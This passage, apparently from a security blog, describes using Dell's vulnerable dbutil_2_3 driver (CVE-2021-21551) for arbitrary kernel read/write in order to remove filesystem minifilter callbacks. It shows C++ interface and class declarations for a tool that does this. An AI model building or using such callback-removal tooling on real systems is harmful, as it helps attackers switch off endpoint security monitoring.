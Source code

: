 In this section I'll describe how to use Dell's dbutil_2_3 driver to patch minifilter callbacks. I won't be going into detail of the exploit here as the purpose of this section is to detail how to use an arbitrary virtual read/write to meet this objective, and not a specific vulnerable driver.

To that end I would like to thank mzakocs for permission to use his PoC which can be found here: 
https://github.com/mzakocs/CVE-2021-21551-POC

I wanted to focus my time on getting this PoC working, and I came across this repository which helped me rapidly test and deploy my solution.

### 2.1 A Quick and Dirty Interface

Because I want to make this PoC as extensible as possible, I created a simple base class providing a `VirtualRead` and `VirtualWrite` method.

```
class MemHandler
{
public:
	virtual BOOL VirtualRead(_In_ DWORD64 address, _Out_ void* buffer, _In_ size_t bytesToRead) = 0;
	virtual BOOL VirtualWrite(_In_ DWORD64 address, _In_ void* buffer, _In_ size_t bytesToWrite) = 0;
};
```
MemHandler.h

### 2.2 FltUtil

The FltUtil class is designed to be constructed with any class extending the `MemHandler` class, allowing anyone to reuse this code with a different driver / library, so long as you implement your own `MemHandler`.

```
// source truncated

typedef struct _HANDY_FUNCTIONS {
	PVOID FuncReturns0;
	PVOID FuncReturns1;
}HANDY_FUNCTIONS, *PHANDY_FUNCTIONS;

class FltManager
{
public:
	FltManager(MemHandler* objMemHandler);
	~FltManager();
	PVOID lpFltMgrBase = { 0 };
	PVOID lpFltGlobals = { 0 };
	PVOID lpFltFrameList = { 0 };
	PVOID GetFilterByName(const wchar_t* strFilterName);
	PVOID GetFrameForFilter(LPVOID lpFilter);
	std::vector<FLT_OPERATION_REGISTRATION> GetOperationsForFilter(PVOID lpFilter);
	BOOL ResolveFunctionsForPatch(PHANDY_FUNCTIONS lpHandyFunctions);
	std::unordered_map<wchar_t*, PVOID> EnumFrameVolumes(LPVOID lpFrame);
	DWORD GetFrameCount();
	BOOL RemovePrePostCallbacksForVolumesAndCallbacks(
		std::vector<FLT_OPERATION_REGISTRATION> vecTargetOperations, 
		std::unordered_map<wchar_t*, PVOID> mapTargetVolumes, 
		PHANDY_FUNCTIONS lpHandyFuncs
	);

private:
	ULONG ulNumFrames;
	PVOID ResolveDriverBase(const wchar_t* strDriverName);
	PVOID ResolveFltmgrGlobals(LPVOID lpkFltMgrBase);
	PVOID FindRet1(LPVOID lpNtosBase, _ppeb_ldr ldr);
```